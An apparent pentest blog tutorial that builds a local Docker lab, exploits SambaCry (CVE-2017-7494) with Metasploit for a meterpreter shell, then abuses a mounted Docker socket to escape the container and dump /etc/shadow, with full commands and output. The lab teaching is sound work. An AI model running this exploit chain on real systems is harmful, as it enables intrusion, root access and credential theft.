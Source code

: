 #+title: Abusing insecure docker deployments
#+author: OPSXCQ
#+date: 2018-11-10
#+hugo_base_dir: ../../
#+hugo_section: posts
#+hugo_tags[]: docker, pentest, attack

Is possible to abuse misconfigurations and bugs and escape from containers in
several scenarios, in this post I will explore the most basic one: abusing the
docker socket to escape the container and run code as *root* in the host machine.

#+hugo: more

* Lab setup

Since we will be using containers, you have to install [[https://docker.com][docker]] to be able to run
this lab.

** Create the network

The very first step is to create a docker network where the containers will be
created:

#+begin_src bash
docker network create pwnage 
#+end_src

** Start the vulnerable container

For this example, we will use a container vulnerable to =CVE-2017-7494=, also
known as Samba Cry vulnerability. If you are interested in reading more about it
please check this repository [[https://github.com/opsxcq/exploit-CVE-2017-7494][opsxcq/exploit-CVE-2017-7494]].

This vulnerability allows you to get remote code execution in a Samba server, to
complete the setup the docker socket will be added to the container. This will
generate a common misconfiguration scenario:

#+begin_src bash
docker run --rm -it \
       --name vulnerable \
       --network pwnage \
       -v '/var/run/docker.sock:/var/run/docker.sock' \
       vulnerables/cve-2017-7494
#+end_src

** Start the attacker environment

The very last step in our environment is to add the attacker host to the
network. There is an exploit in the Samba Cry repository, but instead we will be
using =Metasploit= because of =meterpreter's= advanced features which will make the
whole process easier. There is an image already build for that, just run the
command bellow and everything will run as needed for this lab:

#+begin_src bash
docker run --rm -it \
       --network pwnage \
       -v '/usr/bin/docker:/docker:ro' \
       strm/metasploit
#+end_src

After it is loaded you will be presented to this screen

[[https://raw.githubusercontent.com/opsxcq/docker-metasploit/master/print.png]]

* Attack
** Information gathering

In any attack, the first thing to do is to gather information about the target.
So let's first check the connectivity by pinging the =vulnerable= container.

#+begin_src bash
ping -c 2 vulnerable 
#+end_src

If everything is OK you should expect an output like

#+begin_src bash
msf5 > ping -c 2 vulnerable 
[*] exec: ping -c 2 vulnerable 

PING vulnerable (172.20.0.2) 56(84) bytes of data.
64 bytes from vulnerable.pwnage (172.20.0.2): icmp_seq=1 ttl=64 time=0.120 ms
64 bytes from vulnerable.pwnage (172.20.0.2): icmp_seq=2 ttl=64 time=0.097 ms

--- vulnerable ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1009ms
rtt min/avg/max/mdev = 0.097/0.108/0.120/0.015 ms
#+end_src

Then we proceed to a basic smb shares enumeration with:

#+begin_src bash
use auxiliary/scanner/smb/smb_enumshares
set rhosts vulnerable
run
#+end_src

The expected output is
#+begin_example
msf5 > use auxiliary/scanner/smb/smb_enumshares
msf5 auxiliary(scanner/smb/smb_enumshares) > set rhosts vulnerable
rhosts => vulnerable
msf5 auxiliary(scanner/smb/smb_enumshares) > run

[+] 172.20.0.2:139        - data - (DS) Data
[+] 172.20.0.2:139        - IPC$ - (I) IPC Service (Crying samba)
[*] vulnerable:           - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
#+end_example

It show us that there is a share named =data= in this samba server.

* Getting access

Next step is to run the exploit against the host so we can obtain a shell. On
=Metasploit= this vulnerability is named =is_known_pipename= and is located in
=exploit/linux/samba/is_known_pipename=.

Run the command bellow to attack the host:

#+begin_src bash
use exploit/linux/samba/is_known_pipename
set RHOST vulnerable
set RPORT 445
set payload linux/x64/meterpreter/bind_tcp
set TARGET 3
set SMB_FOLDER data
set SMBUser sambacry
set SMBPass nosambanocry
exploit
#+end_src

If everything runs fine, you should be presented with a =meterpreter= shell like:

#+begin_example
msf5 > use exploit/linux/samba/is_known_pipename
msf5 exploit(linux/samba/is_known_pipename) > set RHOST vulnerable
RHOST => vulnerable
msf5 exploit(linux/samba/is_known_pipename) > set RPORT 445
RPORT => 445
msf5 exploit(linux/samba/is_known_pipename) > set payload linux/x64/meterpreter/bind_tcp
payload => linux/x64/meterpreter/bind_tcp
msf5 exploit(linux/samba/is_known_pipename) > set TARGET 3
TARGET => 3
msf5 exploit(linux/samba/is_known_pipename) > set SMB_FOLDER data
SMB_FOLDER => data
msf5 exploit(linux/samba/is_known_pipename) > set SMBUser sambacry
SMBUser => sambacry
msf5 exploit(linux/samba/is_known_pipename) > set SMBPass nosambanocry
SMBPass => nosambanocry
msf5 exploit(linux/samba/is_known_pipename) > exploit

[*] vulnerable:445 - Using location \\vulnerable\data\ for the path
[*] vulnerable:445 - Retrieving the remote path of the share 'data'
[*] vulnerable:445 - Share 'data' has server-side path '/data
[*] vulnerable:445 - Uploaded payload to \\vulnerable\data\shyyEPPk.so
[*] vulnerable:445 - Loading the payload from server-side path /data/shyyEPPk.so using \\PIPE\/data/shyyEPPk.so...
[-] vulnerable:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] vulnerable:445 - Loading the payload from server-side path /data/shyyEPPk.so using /data/shyyEPPk.so...
[-] vulnerable:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] Started bind TCP handler against vulnerable:4444
[*] Sending stage (816260 bytes) to vulnerable

meterpreter > 
#+end_example

* Escalating privileges

To escalate privileges we will abuse the docker socket being available inside
the container. Since =dockerd= runs as root in the host machine, it has root
permissions so we can abuse it to do several things. For example using
=--privileged= can give you several extended capabilities, the text bellow
explaining them was extracted from the official docker documentation:

#+begin_quote
By default, Docker containers are “unprivileged” and cannot, for example, run a
Docker daemon inside a Docker container. This is because by default a container
is not allowed to access any devices, but a “privileged” container is given
access to all devices (see the documentation on cgroups devices). When the
operator executes docker run --privileged, Docker will enable access to all
devices on the host as well as set some configuration in AppArmor or SELinux to
allow the container nearly all the same access to the host as processes running
outside containers on the host.
#+end_quote

You can access devices with =--device=, but in our case, we will map the root file
system (=/=) to the container and have access to it.

Since there is no docker client inside this container, the next step is to setup
the docker client and its dependencies inside our target container. Just run the
command bellow and everything will be done.

#+begin_src bash
upload /docker /docker
upload /usr/lib/x86_64-linux-gnu/libltdl.so.7 /usr/lib/x86_64-linux-gnu/libltdl.so.7
chmod 777 /docker
chmod +x /docker
#+end_src

#+begin_example
meterpreter > upload /docker /docker
[*] uploading  : /docker -> /docker
[*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker
[*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker
[*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker
[*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker
[*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker
[*] uploaded   : /docker -> /docker
meterpreter > upload /usr/lib/x86_64-linux-gnu/libltdl.so.7 /usr/lib/x86_64-linux-gnu/libltdl.so.7
[*] uploading  : /usr/lib/x86_64-linux-gnu/libltdl.so.7 -> /usr/lib/x86_64-linux-gnu/libltdl.so.7
[*] Uploaded -1.00 B of 38.47 KiB (-0.0%): /usr/lib/x86_64-linux-gnu/libltdl.so.7 -> /usr/lib/x86_64-linux-gnu/libltdl.so.7
[*] uploaded   : /usr/lib/x86_64-linux-gnu/libltdl.so.7 -> /usr/lib/x86_64-linux-gnu/libltdl.so.7
meterpreter > chmod 777 /docker
meterpreter > chmod +x /docker
meterpreter > 
#+end_example

And finally, using docker to have access to the host file system.

#+begin_src bash
execute -f /docker -i -H -c -a "run --rm -v '/:/rootfs' debian:9.2 cat /rootfs/etc/shadow"
#+end_src

And that is it, you've escaped the container and dumped the machine local user
hashes, the output will look like:

#+begin_example
meterpreter > execute -f /docker -i -H -c -a "run --rm -v '/:/rootfs' debian:9.2 cat /rootfs/etc/shadow"
Process 113 created.
Channel 13 created.
root:$1$UFKdtFGw$qp29y1qGWit/vnvIG0uSr1:17488:0:99999:7:::
daemon:*:17488:0:99999:7:::
bin:*:17488:0:99999:7:::
sys:*:17488:0:99999:7:::
sync:*:17488:0:99999:7:::
games:*:17488:0:99999:7:::
man:*:17488:0:99999:7:::
lp:*:17488:0:99999:7:::
mail:*:17488:0:99999:7:::
news:*:17488:0:99999:7:::
#+end_example

* References

- [Metasploit docker image](https://github.com/opsxcq/docker-metasploit)
- [Vulnerable container](https://github.com/opsxcq/exploit-CVE-2017-7494)
